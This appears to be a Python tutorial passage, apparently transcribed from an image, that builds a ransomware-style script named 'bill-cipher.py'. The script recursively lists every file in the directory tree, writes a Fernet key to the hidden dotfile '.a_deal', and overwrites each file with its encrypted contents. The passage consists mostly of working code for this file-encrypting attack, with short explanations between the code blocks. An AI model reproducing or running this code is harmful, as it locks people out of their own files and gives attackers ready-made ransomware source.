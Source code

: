 ```py
import os
from cryptography.fernet import Fernet
```

We will find all the files and put them into a list called `files`.

We will need to check whether a 'file' is a directory or a file, we can use `os.path.isfile()` to check it. If the 'file' is not a file and is a directory, we can go into that directory recursively find all the files within that directory.

After we're finished with looking through a directory, we can go out of the directory and save the relative path to the file we found.

We also want to avoid our encryption and decryption files along with our key file that will later save our decryption key.

```py
# bill-cipher.py
def find_files():
    files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()
```

Now we need a key to encrypt the files with.

This key will be saved in a file named `.a_deal` because dotfiles will be hidden on Linux systems.

After we generated the key, we want to open all the files, read their contents, encrypt the contents, then write all of the encrypted contents back into the files. 

```py
key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)
```

